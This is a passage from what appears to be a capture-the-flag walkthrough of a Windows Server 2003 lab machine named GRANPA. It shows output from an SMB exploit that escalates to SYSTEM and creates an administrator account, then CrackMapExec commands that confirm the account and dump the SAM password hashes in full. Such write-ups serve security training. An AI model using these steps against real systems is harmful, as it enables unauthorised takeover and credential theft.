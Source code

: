 ```
TRANS2: 0x7ac90
modify transaction struct for arbitrary read/write
make this SMB session to be SYSTEM
current TOKEN addr: 0xe13fc850
userAndGroupCount: 0x5
userAndGroupsAddr: 0xe13fc8f0
overwriting token UserAndGroups
Opening SVCManager on 127.0.0.1.....
Creating service ReVn.....
Starting service ReVn.....
SCMR SessionError: code: 0x41d - ERROR_SERVICE_REQUEST_TIMEOUT - The service did not respond to the start or control request in a timely fashion.
Removing service ReVn.....
Done
```

And now we can check if the user exists:

```
kali@kali:/opt/CrackMapExec$ sudo cme smb 127.0.0.1 -u patchthis -p passw
SMB         127.0.0.1       445    GRANPA           [*] Windows Server 2003 R2 3790 Service Pack 2 (name:GRANPA) (domain:GRANPA) (signing:False) (SMBv1:True)
SMB         127.0.0.1       445    GRANPA           [+] GRANPA\patchthis:passw (Pwn3d!)
```

So here we can see that the administrator account has been created.

```
kali@kali:/opt/CrackMapExec$ sudo cme smb 127.0.0.1 -u patchthis -p passw --sam
SMB         127.0.0.1       445    GRANPA           [*] Windows Server 2003 R2 3790 Service Pack 2 (name:GRANPA) (domain:GRANPA) (signing:False) (SMBv1:True)
SMB         127.0.0.1       445    GRANPA           [+] GRANPA\patchthis:passw (Pwn3d!)
SMB         127.0.0.1       445    GRANPA           [+] Dumping SAM hashes
SMB         127.0.0.1       445    GRANPA           Administrator:500:0a70918d669baeb307012642393148ab:34dec8a1db14cdde2a21967c3c997548:::                                                          
SMB         127.0.0.1       445    GRANPA           Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::                                                                  
SMB         127.0.0.1       445    GRANPA           SUPPORT_388945a0:1001:aad3b435b51404eeaad3b435b51404ee:8ed3993efb4e6476e4f75caebeca93e6:::                                                      
SMB         127.0.0.1       445    GRANPA           IUSR_GRANPA:1003:a274b4532c9ca5cdf684351fab962e86:6a981cb5e038b2d8b713743a50d89c88:::                                                           
SMB         127.0.0.1       445    GRANPA           IWAM_GRANPA:1004:95d112c4da2348b599183ac6b1d67840:a97f39734c21b3f6155ded7821d04d16:::
SMB         127.0.0.1       445    GRANPA           ASPNET:1007:3f71d62ec68a06a39721cb3f54f04a3b:edc0d5506804653f58964a2376bbd769:::
SMB         127.0.0.1       445    GRANPA           Harry:1008:93c50499355883d1441208923e8628e6:031f5563e0ac4ba538e8ea325479740d:::
SMB         127.0.0.1       445    GRANPA           patchthis:1009:d12e10919b6e0e15aad3b435b51404ee:f5feaa8e026b0deeef0b6371f3ae438e:::
SMB         127.0.0.1       445    GRANPA           [+] Added 8 SAM hashes to the database
kali@kali:/opt/CrackMapExec$ 
```
